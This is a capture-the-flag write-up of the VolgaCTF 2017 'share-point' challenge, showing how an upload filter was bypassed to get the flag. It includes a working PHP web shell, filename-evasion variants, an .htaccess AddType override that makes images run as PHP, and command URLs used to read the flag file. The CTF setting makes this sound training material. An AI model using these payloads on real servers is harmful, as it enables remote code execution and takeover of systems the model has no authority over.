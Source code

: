 <h3>Login</h3>

Weak authentication
After playing around with the credential fields you get some errors / warnings that tell you the requirements.

**User name:** Must be atleast 4 characters
**Password:** Any 8 characters. (If another user is logged in, as that username it may error and say wrong password).

<h3>File upload</h3>

Right away redirected to a file upload. Ok lets upload a picture and see what happens, upload freakazoid.png.  Can navigate to it and view the picture.  Notice everything is PHP. Great lets try a PHP file with command execution inside.

```
<?php
if (isset($_GET['cmd'])){
  print(shell_exec($_GET['cmd']));
}
```
PHP is blocked. Damn. Ok lets upload a PHP file, without a PHP extension.

Success, ok lets try a few different file extensions to understand what is happening.

* file.php.png [yes]
* file.png.php [no]
* file.php;png [yes]
* file.php%00.png [yes]
* file.php.php.png [yes]
* file.png.php.php [no]
* file.php.png123 [yes]
* file.png%00file.php [no]
* file.png' or 1=1# [no]
* file [yes]

For every file that successfully uploaded I tried to view them, and use `<url>?cmd=ls` to see if I could get the php to execute my commands. Nothing worked! 

I stumbled around for along time, but 2-3 more hours exploring fuctionality of sharing, exploring the `Content-type` field in the `POST` request using burp.  Tried LFI, directory traversal.

I openend some php file upload filter evasion links, and read them thoroughly, after playing with the `Content-type` a post about `.htaccess` file types caught my eye. I had NOT tried that. Let's try it.

I Create a blank file called `file.htaccess`. It uploaded! Ok the link said to upload the file `.htaccess` to the server and have the contents:

```
AddType application/x-httpd-php .jpg
AddType application/x-httpd-php .png
```

What does this do? the `AddType` in an `.htaccess` file can tell the webserver to run many other extensions types as PHP, one reason why `.html` files work with PHP inside of them.

Uploading `.htaccess` worked. I then uploaded my PHP code execution file (code above) as the file `file.png`. I navigated to the link from the Files section of the website.

`http://share-point.quals.2017.volgactf.ru/files/AAAA/kek.php.png`

I then added the parameter (again from the code above) `?cmd=` to the end to verify if PHP would execute.

`http://share-point.quals.2017.volgactf.ru/files/AAAA/kek.php.png?cmd=ls`

Success!!!!!!

`http://share-point.quals.2017.volgactf.ru/files/AAAA/kek.php.png?cmd=ls+-al`

Works!

Ok, lets just see if this works:

`http://share-point.quals.2017.volgactf.ru/files/AAAA/kek.php.png?cmd=locate flag`

Success again! Multiple results! The first is `/opt/flag.txt` lets see what is inside.

`http://share-point.quals.2017.volgactf.ru/files/AAAA/kek.php.png?cmd=cat%20/opt/flag.txt`

THE FLAG IS IN HERE!!!!


VolgaCTF{AnoTHer_apPro0Ach_to_file_Upl0Ad_with_PhP}
